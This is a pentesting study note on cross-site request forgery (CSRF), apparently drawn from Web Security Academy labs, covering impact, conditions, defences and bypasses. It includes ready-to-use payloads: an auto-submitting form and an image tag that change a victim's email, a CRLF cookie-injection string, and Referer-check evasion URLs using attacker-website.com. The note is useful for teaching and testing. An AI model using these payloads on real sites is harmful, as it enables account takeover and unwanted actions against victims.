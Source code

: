 # CSRF

<details>

<summary>Impact</summary>

* The attacker causes the victim user to carry out an action unintentionally
  * Change password, email, make a funds transfer

<!---->

* If the victim is a privileged user the attacker might be able to take full control of all the application's

</details>

## Conditions

* A relevant action
  * Example: change password
* Cookie-based session handling
* No unpredictable request parameters:
  * If you need to know the value of the existing password -> no vulnerable

## Examples

1. with POST

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2. with GET

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## Defences

1. CSRF tokens

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

1. SameSite cookies
2. Referer-based validation

### CSRF tokens bypass

* **Switch from POST to the GET method to bypass**
* **Remove the entire parameter containing the token**
* Sometimes you don't need a valid token (the app doesn't keep valid server-side tokens) .
  * Simply **invent a token in the required format**
* Some apps don't validate if the token belongs to the same session as the requesting user.
  * Log in to the application with your account, **obtain a valid token**, and then **feed that token to the victim user** in their CSRF attack
* Some applications do tie the CSRF token to a cookie, but not to the session cookie. So there are two token: one in a cookie and one in hidden input. (this can also have the same value)
  * Can you set a cookie? Ex. Header injection with `CRLF`.&#x20;
  * ```
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  * Log in to the application with your account -> obtain a valid token and associated cookie.
  * Remove the auto-submit `<script>` block, and add the following code to inject the cookie.
  * ```html
    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```



### SameSite cookies bypass

It determines when a website's cookies are included in requests originating from other websites



### Referer-based validation bypass

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

* Validation of Referer depends on header being present
  * Some apps validate the Referer header if present, but skip if omitted
  * `<meta name="referrer" content="never">`
* Validation of Referer can be circumvented
  * `http://vulnerable-website.com.attacker-website.com/csrf-attack`
  * `http://attacker-website.com/csrf-attack?vulnerable-website.com`
  * `http://attacker-website.com/vulnerable-website.com`
  * Note 1: add Referrer-Policy: unsafe-url
    * One way to set it in html: `<meta name="referrer" content="unsafe-url" />`
  * Note 2: Firefox 87 new default Referrer Policy ‘strict-origin-when-cross-origin’ trimming user sensitive information like path and query string to protect privacy. (https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)
  * Note 3: Instead of use http://attacker-website.com/vulnerable-website.com that looks strange you can use http://attacker-website.com/ and add `<script>history.pushState('', '', '/attacker-website.com')</script>`

More info about setting Referer-Policy: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
